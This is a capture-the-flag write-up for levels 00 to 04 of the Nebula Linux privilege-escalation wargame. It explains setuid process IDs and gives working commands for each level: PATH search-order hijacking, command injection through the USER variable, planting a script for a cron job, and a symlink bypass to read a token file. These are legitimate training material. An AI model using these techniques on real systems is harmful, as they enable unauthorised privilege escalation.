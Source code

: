 # Nebula

## Level 00 - Searching for setuid binaries.

Each user in linux is identified using an id , which is an integer, and referred to as UserId. Each process in Linux , has 3 parameters which defines the permissions it has on files, executables etc. These are RUID (real user id), EUID (effective user id) and SUID (Saved User ID).
The RUID of a process is same as the UserID of the user that started the process. Grossly simplified, the EUID of effective user ID of the process comes into the picture when the process needs a particular privilege to execute an action, and the SUID comes into play when executable with set-uid bit set.
The resulting process spawned when the executable is run, will start with the Real User ID of the process that started it i.e the userid of the user running the executable. However, the SUID of the process will be the SUID owner of the executable (the user for which suid bit of this executable has been set). So if USER A (eg id=1008) starts the SUID executable of USER B (id=1009), the RUID, EUID, SUID of the process spawned by user A on this suid will have values (1008,1009,1009) respectively.
This is common practice in linux. Commands like ping for eg, make underlying calls which are privileged, but need to be accessed by all user’s of the system. The suid of ping is set to root, so whenever a user runs ping, the user is temporarily elevated to the privilege of root (EUID, SUID).

So, for this we need to find a suid executable for flag0 user or the root user.
```shell
find / -user flag00 -perm -4000 2>/dev/null or
find / -user flag00 -perm /u=s
```

## Level 01 - Search-order-hijack
This challenge also employs principles centered around SUID executables.
The effective id of the user of the level01 is set to that of flag01 when the flag01 is executed (suid exec)
However, the RUID of the running process will be the id of the user who ran it which is level01. (euid and saved set uid will be that of flag01)

All the 3 ids are then set to the effective uid later in the program using setresuid and setresgid calls (plausibly to deal with the privileges that can get dropped when a system call is made).

We need to execute ‘getflag’ , so if we could somehow manipulate the system call to do our bidding, then we have achieved our goal.
However, the environment variable env and the values are still the ones which were loaded at the program start (which is level01) user.
Since $PATH is in the control of level01 , we can make echo point to anything by prepending it with /tmp/ as shown and control execution.
Note the executable has a setuid bit.
```shell
level01@nebula:/home/flag01$ ls -l
total 8
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01
```
This is the interesting line in the source code.
```c
system("/usr/bin/env echo and now what?");
```
Notice how `/usr/bin/env` is called using it's full path, as opposed to `echo`.

We can exploit this fact to execute a `search-order-hijack` attack.

When an executable is mentioned without full path the system will search
the directories listed in the `PATH` environment variable for it.
```shell
level01@nebula:/home/flag01$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```
We can use `env` to set the variable to a directory of our choosing.
```shell
level01@nebula:/home/flag01$ env PATH=/home/level01 ./flag01
/usr/bin/env: echo: No such file or directory
```
Now create a file to replace echo, this file will execute `getflag`
```shell
level01@nebula:/home/flag01$ whereis getflag
getflag: /bin/getflag
level01@nebula:/home/flag01$ echo "/bin/getflag" > /home/level01/echo; chmod 777 /home/level01/echo
```
And run `flag01` again.
```shell
level01@nebula:/home/flag01$ env PATH=/home/level01 ./flag01
You have successfully executed getflag on a target account
```

## Level 02 - USER === $PATH

Like the last challenge’s focus on the PATH variable, the environment variable too is loaded according to the user running it and hence in our control.
We can inject the system call yet again, but this time the variable of the choice will be USER.
```shell
level02@nebula:/home/flag02$ env USER="we r 1337; getflag; echo this" ./flag02
about to call system("/bin/echo we r 1337; getflag; echo this is cool")
we r 1337
You have successfully executed getflag on a target account
this is cool
```
## Level 03 - CronJobs

We have a directory and a shell script:
```shell
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
For each file in the directory,
* `ulimit -5 t` - allow a maximum of 5 seconds in cpu time
* `bash -x "$i"` - execute shell script and print commands executed
* `rm -f "$i"` - force delete file

We can recall a `crontab` is called every couple of minutes.

Let's read about `crontab` from `man`:
```console
man 5 crontab
```
```
 A crontab file contains instructions to the cron(8) daemon of the general form: ``run this command at
 this time on this date''.  Each user has their own crontab, and commands in any given crontab will  be
 executed as the user who owns the crontab.
```
So we can guess `writeable.sh` is going to be executed every couple of minutes.

Write a shell script that executes `getflag` to `/writable.d`.
```shell
getflag > /home/flag03/solved
```
Now we wait till cron executes the crontab.

We can use `watch` to watch `/writable` for when the file is deleted - crontab executed.
```console
watch ls -l /home/flag03/writable.d
```
```shell
level03@nebula:/home/flag03$ ls
solved  writable.d  writable.sh
level03@nebula:/home/flag03$ cat solved
You have successfully executed getflag on a target account
```

Level 04 - Symbolic links
So it would seem that the token file or path supplied won’t help our cause. The way to bypass this is use symbolic links (and not have token anywhere in the symbolic link path)

ln -s /home/flag04/token /tmp/croaken
/home/flag04/flag04 /tmp/croaken
